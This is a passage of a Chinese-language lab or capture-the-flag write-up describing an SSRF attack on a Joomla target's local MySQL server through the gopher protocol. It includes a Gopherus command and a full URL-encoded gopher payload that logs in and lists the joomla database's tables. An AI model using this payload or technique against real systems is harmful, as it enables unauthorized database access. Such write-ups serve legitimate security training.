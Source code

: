 [![](assets/1710299749-6b12d1cf7b81a50868d9556763fd46df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312172752-cd0b79c6-e052-1.png)

在之前的打靶过程中我们发现 Joomla 是可以管理数据库的，只是比较奇怪的是 nmap 并没有扫描出来 3306 端口，也许可能是靶机对其访问 IP 做了防护，导致只能以 127.0.0.1 连接，随后我们结合 Gopher 协议对本地的 MySQL 数据库发起攻击测试 (之前我们已经有了 mysql 的连接账户和密码)，在此之前我们要用一下 Gopherus 工具，生成用于攻击 MySQL 的攻击载荷，这里我们的数据库名称为 goblin，我们要执行的命令是使用 joomla 数据库并查看表名信息

```bash
Gopherus --exploit mysql
```

[![](assets/1710299749-423325e8bd05322e74dc4dc23bba13f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312172940-0d4ad662-e053-1.png)  
随后测试载荷：

```bash
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%19%00%00%00%03%75%73%65%20%6a%6f%6f%6d%6c%61%3b%20%73%68%6f%77%20%74%61%62%6c%65%73%3b%01%00%00%00%01
```

[![](assets/1710299749-935b2de918094a2d53ee7e27d81b757d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312173005-1c5b4812-e053-1.png)  
随后查看源代码发现 joomla\_users 这个表名  